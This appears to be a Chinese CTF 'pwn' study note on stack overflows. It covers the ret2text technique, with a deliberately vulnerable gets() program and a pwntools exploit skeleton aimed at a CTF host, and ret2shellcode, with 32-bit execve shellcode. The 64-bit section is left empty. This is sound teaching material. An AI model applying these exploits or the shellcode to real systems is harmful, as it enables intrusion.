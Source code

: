 # 前置知识

ELF文件结构：熟悉二进制文件结构，[参考](https://ctf-wiki.org/executable/elf/structure/basic-info/)

IDA的使用：进行反汇编逆向分析程序，[参考](https://blog.csdn.net/qq_52642385/article/details/135620222)

python的pwntools库：熟悉python并能编写利用脚本，[参考](https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/install.html)

系统和编译提供保护：ASLR、PIE、NX、Canary、RELRO

# Pwn的主要漏洞

## 栈溢出

### ret2text

原理：通过溢出，对返回地址进行劫持，来获取shell

关键函数gets,read以及读取对应的字节，是否超出定义变量的字节

例子：源代码的视角中溢出的样子

```c
#include<stdio.h>
int main(){
	char str[8];
  gets(str);	//由于gets函数缺陷，可以输入超出缓冲区的数据大小，进而覆盖掉返回地址
  return 0;
}
```

exp类似这样

```python
from pwn form *
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
payload = cyclic(0x8+0x8) + p64(0x12345678)  #返回地址
p.sendline(payload)
p.interactive()
```

### ret2shellcode

原理：当没有开启NX保护时，栈是可以被执行的，利用栈溢出，来实现劫持返回地址，返回到准备好的shellcode来进行取shell

#### 手写shellcode

得根据实际情况去写shellcode

例子：

```
32位：
  xor eax,eax
  xor ebx,ebx
  xor edx,edx
  xor ecx,ecx
  push edx
  push 0x68732f2f
  push 0x6e69622f 
  mov ebx,esp
  mov al,0xB
  int 0x80
  
64位：
```